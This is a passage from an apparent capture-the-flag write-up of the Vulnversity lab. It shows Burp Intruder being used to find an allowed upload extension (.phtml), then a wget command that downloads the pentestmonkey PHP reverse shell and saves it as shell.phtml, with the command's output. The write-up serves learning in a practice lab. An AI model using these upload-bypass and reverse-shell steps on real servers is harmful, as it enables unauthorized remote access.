 <div class="row justify-content-sm-center">
    <div class="col-sm-8 mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/vulnversity/filechoose.png" title="Choose the file" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Deselect the URL-encode these characters checkbox in the Payload encoding section.

<div class="row justify-content-sm-center">
    <div class="col-sm-8 mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/vulnversity/payloadencode.png" title="Deselect payload encoding" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Click the start attack button to initiate the attack.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/vulnversity/startattack.png" title="Start the attack" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Reviewing the results, notice that the phtml length is significantly different than the other extension.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/vulnversity/results.png" title="Review the results" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Review the response and notice that it says Success.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/vulnversity/resultresponse.png" title="Review the response" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Download the <a href="https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php">pentestmonkey reverse shell</a>.

{% raw %}
```bash
┌──(sec㉿kali)-[~]
└─$  wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php -O shell.phtml
--2025-01-06 23:39:45--  https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 2606:50c0:8001::154, 2606:50c0:8002::154, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5491 (5.4K) [text/plain]
Saving to: ‘shell.phtml’

```